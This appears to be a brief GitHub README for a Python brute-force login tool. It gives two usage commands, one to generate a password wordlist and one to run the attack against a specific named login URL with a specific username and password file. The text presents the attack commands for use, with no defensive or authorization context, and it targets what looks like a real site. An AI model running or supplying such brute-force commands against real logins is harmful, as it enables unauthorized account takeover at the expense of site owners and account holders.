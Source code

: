 # Brute-force
Test-Brute-force-attack

document : https://grateful-starflower-54e.notion.site/Brute-force-Attack-Raysa-153d0ec5e5f8801cbc8fdde51cbad2a8

how to use wordlist : 

```bash
python tools-script.py --generate
```

how to attack : 
```bash
python tools-script.py --url https://sepehr.raysa.ir/login --username 0202043452 --passwords pass.txt
```
